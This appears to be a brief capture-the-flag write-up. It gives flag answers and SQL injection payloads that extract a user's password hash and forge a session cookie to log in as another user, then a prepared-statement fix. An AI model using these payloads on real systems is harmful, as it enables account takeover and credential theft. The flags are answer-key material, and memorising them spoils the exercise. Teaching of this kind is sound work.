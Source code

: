 ## Flag 1 ##
we-love-security


## Flag 3 ##

``` ' UNION SELECT md5_hash FROM users WHERE username = 'shomil' -- ```

## Flag 4 ##

### Exploit

back end query may look like:
``` SELECT username FROM sessions WHERE token = '%s', cookie.session_token ```

Thus if we construct the cookie_session as:
``` ' UNION SELECT 'nicholas' -- ```
This will return a single row with username as nicholas, this tricking the program that the current login user as nicholas

### Mitigation 
Instead of direct inject the session token into the query, we can use a prepared statement to prevent SQL injection. 

``` db.QueryRow( "SELECT username FROM sessions WHERE token = ? ", cookie.session_token) ```
